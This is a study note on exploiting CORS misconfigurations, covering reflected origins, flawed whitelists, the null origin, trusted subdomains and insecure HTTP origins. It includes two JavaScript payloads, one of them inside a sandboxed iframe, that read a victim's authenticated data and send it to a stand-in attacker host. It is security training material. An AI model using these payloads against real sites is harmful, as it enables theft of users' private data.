 Researches
https://portswigger.net/research/exploiting-cors-misconfigurations-for-bitcoins-and-bounties

# Host/Origin headers reflects to ACAO headers

Can be used to steal sensitive information from the arbitrary response.
 `Access-Control-Allow-Credentials: true` - means cookie will be added to the our malicious request. Such way we have access to methods that require authorization.
Example:
```js
var req = new XMLHttpRequest();
req.onload = reqListener;
req.open('get','https://vulnerable-website.com/sensitive-victim-data',true);
req.withCredentials = true;
req.send();

function reqListener() {
	location='//malicious-website.com/log?key='+this.responseText;
};
```

# Error parsing Origin headers
Mistakes often arise implementing Origin whitelists.
For example, suppose an application grants access to all domains ending in: 
```
normal-website.com
```
  An attacker might be able to gain access by registering the domain: 
```
hackersnormal-website.com
```
 Alternatively, suppose an application grants access to all domains beginning with 
```
normal-website.com
```
An attacker might be able to gain access using the domain:
```
normal-website.com.evil-user.net
```
##### Whitelisted null origin value
 The specification for the Origin header supports the value null. Browsers might send the value null in the Origin header in various unusual situations:
* Cross-origin redirects.
* Requests from serialized data.
* Request using the `file:` protocol.
* Sandboxed cross-origin requests.
There are different ways to set `Origin` to `null`, for example:
```html
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" src="data:text/html,<script>
var req = new XMLHttpRequest();
req.onload = reqListener;
req.open('get','vulnerable-website.com/sensitive-victim-data',true);
req.withCredentials = true;
req.send();

function reqListener() {
location='malicious-website.com/log?key='+this.responseText;
};
</script>"></iframe>
```

TODO: finish the lab, portswigger appears to be broken

# Exploiting XSS via CORS trust relationships
If you find a vulnerability on subdomain, you probable being able to make request to main domain website to retrieve sensetive information.
Example:
```http
GET /api/requestApiKey HTTP/1.1
Host: vulnerable-website.com
Origin: https://subdomain.vulnerable-website.com
Cookie: sessionid=...
```
If the server responds with:
```http
HTTP/1.1 200 OK
Access-Control-Allow-Origin: https://subdomain.vulnerable-website.com
Access-Control-Allow-Credentials: true
```
Then an attacker who finds an XSS on subdomain could retrieve the API key:
```
https://subdomain.vulnerable-website.com/?xss=<script>cors-stuff-here</script>
```

# Breaking TLS with poorly configured CORS
Try to specify non-secure trusted subdomain as Origin:
```http
GET /api/requestApiKey HTTP/1.1
Host: vulnerable-website.com
Origin: http://trusted-subdomain.vulnerable-website.com
Cookie: sessionid=...
```
If the application responds with:
```http
HTTP/1.1 200 OK
Access-Control-Allow-Origin: http://trusted-subdomain.vulnerable-website.com
Access-Control-Allow-Credentials: true
```
It's possible to exploit MITM attack.
# Intranets and CORS without credentials
Internal networks are usually less secure:
```http
Access-Control-Allow-Origin: *
```
and might not use credentials at all.